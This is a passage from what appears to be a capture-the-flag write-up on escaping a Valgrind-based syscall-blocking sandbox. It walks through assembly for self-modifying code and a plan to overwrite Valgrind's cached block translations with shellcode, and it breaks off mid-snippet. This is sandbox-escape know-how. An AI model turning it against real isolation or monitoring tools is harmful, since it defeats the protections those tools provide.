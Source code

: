 Output:
```
Encountered illegal operation: Sys_syscall
```

This doesn't work because the Valgrind VM gets a chance to translate the instructions again on every indirect jump. (It isn't doing static translation at program start.)

Idea 2: Self-modifying code
----

Maybe if we modify our code as its running, we can write a syscall after the tool ran, which would thus go undetected?

I'm not 100% sure why this doesn't work if you do it in a RWX region, but it doesn't.

```assembly
# setup regs for write(1, "Hello world", 0x20)
mov eax, 1
mov rdi, 1
lea rsi, [rip+str]
mov rdx, 0x20
movabs r12, 0x0f0000000005c766
movq [rsp], r12
movabs r12, 0xcc909005
movq [rsp+8], r12

jmp rsp

str:
.string "Hello world!\n"
```

The code we write on the stack (which is RWX) is:
```
0:  66 c7 05 00 00 00 00    mov    WORD PTR [rip+0x0],0x50f        # 0x9
7:  0f 05
9:  90                      nop
a:  90                      nop
b:  cc                      int3
```

That works outside of the sandbox, but not inside the sandbox (we get SIGINT)... I guess valgrind doesn't support doing self-modifying code like this.

Idea 3: Modify the post-translated code
----

This ended up working.

Valgrind *caches* translations. So the plan is:

1. Execute a benign block, it will get translated
2. Overwrite the cached translation with shellcode
3. Jump back to the benign block. The cache will be used.

First, I setup something like this:
```assembly
# This is our target basic block
# It gets executed once at start
cool:
movq rsi, 0xfaceb00b
jmp start2

start2:

# big loop so we can attach gdb 
mov rdi, 100000
loop:
decq rdi
```